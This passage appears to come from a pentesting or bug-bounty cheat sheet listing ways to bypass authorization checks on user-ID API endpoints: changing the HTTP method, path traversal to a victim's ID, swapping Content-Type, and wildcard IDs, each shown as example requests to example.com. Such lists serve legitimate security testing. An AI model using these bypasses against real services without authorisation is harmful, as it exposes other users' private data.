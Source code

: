 12.  Change HTTP Method

```
GET /api/v1/users/profile/111 HTTP/1
Host: example.com
...
```

> Try this to bypass

```
POST /api/v1/users/profile/111 HTTP/1
Host: example.com
...
```

13.  Path traversal

```
GET /api/v1/users/profile/victim_id HTTP/1
Host: example.com
...
```

> Try this to bypass

```
GET /api/v1/users/profile/my_id/../victim_id HTTP/1
Host: example.com
...
```

14.  Change request `Content-Type`

```
GET /api/v1/users/1 HTTP/1
Host: example.com
Content-type: application/xml
```

> Try this to bypass

```
GET /api/v1/users/2 HTTP/1
Host: example.com
Content-type: application/json
```

15.  Send wildcard instead of ID

```
GET /api/users/111 HTTP/1
Host: example.com
```

> Try this to bypass

```
GET /api/users/* HTTP/1
Host: example.com
```
